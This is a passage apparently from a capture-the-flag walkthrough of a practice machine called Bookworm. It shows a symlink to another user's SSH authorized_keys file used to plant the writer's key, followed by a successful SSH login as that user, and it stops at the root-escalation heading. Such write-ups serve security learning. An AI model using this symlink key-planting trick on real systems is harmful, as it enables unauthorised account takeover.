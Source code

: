     
    
    frank@bookworm:~$ ln -s /home/neil/.ssh/authorized_keys pwn.txt
    

I’ll send my public SSH key targeting the link:

![image-20240117114050471](../img/image-20240117114050471.png)

Now when I try to SSH as neil, it works:

    
    
    oxdf@hacky$ ssh -i ~/keys/ed25519_gen neil@bookworm.htb
    Welcome to Ubuntu 20.04.6 LTS (GNU/Linux 5.4.0-167-generic x86_64)
    ...[snip]...
    neil@bookworm:~$ 
    

## Shell as root

### Enumeration
